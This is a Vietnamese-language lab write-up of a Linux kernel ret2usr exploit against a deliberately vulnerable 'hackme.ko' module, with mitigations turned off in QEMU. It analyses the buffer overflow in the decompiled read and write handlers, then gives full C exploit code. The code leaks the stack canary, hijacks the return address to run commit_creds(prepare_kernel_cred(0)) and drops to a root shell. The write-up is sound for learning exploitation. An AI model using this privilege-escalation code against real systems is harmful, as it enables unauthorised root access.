





# ret2usr

## Demo part 1

- https://lkmidas.github.io/posts/20210123-linux-kernel-pwn-part-1/#the-simplest-exploit---ret2usr

### Setup

- https://hackmd.io/@ChinoKafuu/kernel#2-Setup-v%C3%A0-khai-th%C3%A1c-th%E1%BB%AD

### Phân tích file hackme.ko

- Ở đây mình thấy có 2 hàm mà có tương tác user-kernel là `hackme_write` và `hackme_read`

#### hackme_read

- Ở đây chương trình đã copy `tmp` > `hackme` > `data` với size là v5 (mình đoán v5 là size của `copy_to_user`)
- Như vậy nếu size lớn hơn 32\*4 ta có thể leak được canary

```c
ssize_t __fastcall hackme_read(file *f, char *data, size_t size, loff_t *off)
{
  unsigned __int64 v4; // rdx
  unsigned __int64 v5; // rbx
  bool v6; // zf
  ssize_t result; // rax
  int tmp[32]; // [rsp+0h] [rbp-A0h] BYREF
  unsigned __int64 v9; // [rsp+80h] [rbp-20h]

  _fentry__(f, data, size, off);
  v5 = v4;
  v9 = __readgsqword(0x28u);
  _memcpy(hackme_buf, tmp);
  if ( v5 > 0x1000 )
  {
    _warn_printk("Buffer overflow detected (%d < %lu)!\n", 4096LL, v5);
    BUG();
  }
  _check_object_size(hackme_buf, v5, 1LL);
  v6 = copy_to_user(data, hackme_buf, v5) == 0;
  result = -14LL;
  if ( v6 )
    return v5;
  return result;
}
```

#### hackme_write

- Ở hàm `hackme_write`, ta thấy hàm copy stack của user vào hackme_buf (`copy_from_user(hackme_buf, data, v5)`) và copy vào stack của kernel. Lỗ hổng ở đây là hàm không kiểm tra kích thước khi copy dẫn tới bof

```c
ssize_t __fastcall hackme_write(file *f, const char *data, size_t size, loff_t *off)
{
  unsigned __int64 v4; // rdx
  ssize_t v5; // rbx
  int tmp[32]; // [rsp+0h] [rbp-A0h] BYREF
  unsigned __int64 v8; // [rsp+80h] [rbp-20h]

  _fentry__(f, data, size, off);
  v5 = v4;
  v8 = __readgsqword(0x28u);
  if ( v4 > 0x1000 )
  {
    _warn_printk("Buffer overflow detected (%d < %lu)!\n", 4096LL, v4);
    BUG();
  }
  _check_object_size(hackme_buf, v4, 0LL);
  if ( copy_from_user(hackme_buf, data, v5) )
    return -14LL;
  _memcpy(tmp, hackme_buf);
  return v5;
}
```

### Khai thác

- Ở đây do mình mới tập tành nên tạm thời mình tắt các lớp bảo vệ, kaslr, sau này khi hiểu các lớp bảo vệ hoạt động và cách bypass, chúng ta sẽ khai thác lại
- File run.sh

```bash
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -cpu kvm64 \
    -kernel vmlinuz \
    -initrd initramfs.cpio.gz \
    -hdb flag.txt \
    -snapshot \
    -nographic \
    -monitor /dev/null \
    -no-reboot \
    -append "console=ttyS0 nokaslr nosmap nopti quiet panic=1" \
    -s
```

#### Leak canary 

- Như mình đã phân tích ở trên, hàm `hackme_read` có thể leak được canary
- Ở hình mình chụp thì hackme[2] và hackme[16] khá giống 1 canary. Đề biết chắc chắn thì ta có thể debug, nhưng mình đoán là 16 vì stack của kernel là `long int tmp[0x10]`

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

int fd_ko;
void open_module()
{
    fd_ko = open("/dev/hackme", O_RDWR);
    if (fd_ko < 0)
    {
        printf("open fail");
        exit(0);
    }
}
long int canary = 0;
void read_module()
{
    long int tmp[0x10 + 5];
    int check = read(fd_ko, tmp, sizeof(tmp));
    if (check < 0)
    {
        printf("read fail\n");
        exit(0);
    }
    for (int i = 0; i < 0x10 + 5; i++)
    {
        printf("hackme[%d]: %lp\n", i, tmp[i]);
    }
    canary = tmp[16];
}

int main()
{
    open_module();
    read_module();
}
```



#### Tính offset

```c
void write_module()
{
    long int tmp[0x20];
    memset(tmp, 'a', 0x10 * 8);
    tmp[0x10] = canary;
    tmp[0x11] = 0;                        // pop rdx
    tmp[0x12] = 0;                        // pop r12
    tmp[0x13] = 0;                        // pop r12
    int check = write(fd_ko, tmp, sizeof(tmp));
    if (check < 0)
    {
        printf("write fail\n");
    }
}

int main()
{
    setbuf(stdin, 0);
    setbuf(stderr, 0);
    setbuf(stdout, 0);
    open_module();
    read_module();
    write_module();
}
```

- Để kiểm tra chính xác, mình sẽ phải debug. Do bài này hình như có lớp bảo vệ nào đó khiến cho các hàm trong module sắp xếp khác so với khi ta mở ida module. Do vậy ta sẽ phải đọc asm, đặt break ở các chỗ call `_memcpy`, `copy_to_user`, `copy_from_user`
  
- Break ở copy_to_user
  
- Stack của module
  

### get shell

- Phần setup để get shell ở đây
  

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <fcntl.h>
#include <string.h>

int fd_ko;
void open_module()
{
    fd_ko = open("/dev/hackme", O_RDWR);
    if (fd_ko < 0)
    {
        printf("open fail");
        exit(0);
    }
}
long int canary = 0;
void read_module()
{
    long int tmp[0x10 + 5];
    int check = read(fd_ko, tmp, sizeof(tmp));
    if (check < 0)
    {
        printf("read fail\n");
        exit(0);
    }
    for (int i = 0; i < 0x10 + 5; i++)
    {
        printf("hackme[%d]: %lp\n", i, tmp[i]);
    }
    canary = tmp[16];
}

void get_shell(void)
{
    puts("[*] Returned to userland");
    if (getuid() == 0)
    {
        printf("[*] UID: %d, got root!\n", getuid());
        system("/bin/sh");
    }
    else
    {
        printf("[!] UID: %d, didn't get root\n", getuid());
        exit(-1);
    }
}

unsigned long user_rip = (unsigned long)get_shell + 1;

unsigned long user_cs, user_ss, user_rflags, user_sp;

void save_state()
{
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;");
    puts("[*] Saved state");
}

void escalate_privs(void)
{
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" // prepare_kernel_cred
        "xor rdi, rdi;"
        "call rax; mov rdi, rax;"
        "movabs rax, 0xffffffff814c6410;" // commit_creds
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;");
}

void write_module()
{
    long int tmp[0x20];
    memset(tmp, 'a', 0x10 * 8);
    tmp[0x10] = canary;
    tmp[0x11] = 0;                        // pop rdx
    tmp[0x12] = 0;                        // pop r12
    tmp[0x13] = 0;                        // pop r12
    tmp[0x14] = (long int)escalate_privs; // saved rip
    int check = write(fd_ko, tmp, sizeof(tmp));
    if (check < 0)
    {
        printf("write fail\n");
    }
}

int main()
{
    save_state();
    open_module();
    read_module();
    write_module();
}
```
